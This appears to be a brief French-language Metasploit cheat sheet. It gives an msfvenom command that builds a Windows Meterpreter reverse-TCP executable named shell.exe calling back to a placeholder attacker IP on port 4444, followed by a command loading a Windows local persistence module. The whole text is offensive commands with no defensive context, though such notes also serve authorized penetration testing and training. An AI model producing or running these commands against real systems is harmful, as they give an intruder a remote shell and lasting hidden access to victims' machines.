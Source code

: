# Metasploit

Generer le payload

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 -f exe -o shell.exe
```

```sh
use exploit/windows/local/persistence
```